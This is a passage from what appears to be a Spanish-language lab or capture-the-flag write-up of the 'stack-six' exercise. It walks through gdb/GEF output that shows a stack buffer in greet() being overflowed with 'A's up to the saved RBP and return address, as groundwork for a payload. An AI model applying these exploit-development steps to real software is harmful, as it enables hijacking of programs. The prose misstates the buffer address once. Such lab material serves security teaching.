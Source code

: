 ```csharp
     0x40077d <greet+128>      call   0x400550 <strncpy@plt>
 →   0x400782 <greet+133>      lea    rax, [rbp-0xa0]
     0x400789 <greet+140>      mov    rdi, rax
     0x40078c <greet+143>      call   0x400560 <strdup@plt>
     0x400791 <greet+148>      add    rsp, 0xa8
     0x400798 <greet+155>      pop    rbx
     0x400799 <greet+156>      pop    rbp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack-six", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400782 → greet()
[#1] 0x4007e9 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Se imprime la dirección del buffer local en `greet` mediante `$rbp-0xa0`, obteniendo `0x7fffffffe50`. Esta dirección será clave para la construcción del payload, ya que corresponde al inicio del espacio en la pila donde se copian los datos de entrada.

```csharp
gef➤   print $rbp-0xa0
$1 = (void *) 0x7fffffffe520
gef➤  
```

Se visualiza el contenido del buffer en formato string usando `x/s $rbp-0xa0`. Se observa el mensaje inicial `"Welcome, I am pleased to meet you "` concatenado con las 127 `'A'` copiadas desde la variable de entorno, seguido de los bytes residuales que permanecen en memoria.

```csharp
gef➤  x/s $rbp-0xa0
0x7fffffffe520:	"Welcome, I am pleased to meet you ", 'A' <repeats 127 times>, "\345\377\377\377\177"
gef➤
```

Se inspecciona la memoria del buffer con `x/22xg $rbp-0xa0`. La salida muestra cómo las 127 `'A'` inyectadas llenan el espacio reservado hasta alcanzar la zona de control de la pila, sobrescribiendo el **saved RBP** en `0x00007fffffffe541` y el **saved RIP** (dirección de retorno) en `0x00000000004007e9`.

```csharp
gef➤  x/22xg $rbp-0xa0
0x7fffffffe520:	0x2c656d6f636c6557	0x6c70206d61204920
0x7fffffffe530:	0x6f74206465736165	0x6f79207465656d20
0x7fffffffe540:	0x4141414141412075	0x4141414141414141
0x7fffffffe550:	0x4141414141414141	0x4141414141414141
0x7fffffffe560:	0x4141414141414141	0x4141414141414141
0x7fffffffe570:	0x4141414141414141	0x4141414141414141
0x7fffffffe580:	0x4141414141414141	0x4141414141414141
0x7fffffffe590:	0x4141414141414141	0x4141414141414141
0x7fffffffe5a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5b0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5c0:	0x00007fffffffe541	0x00000000004007e9
gef➤
```
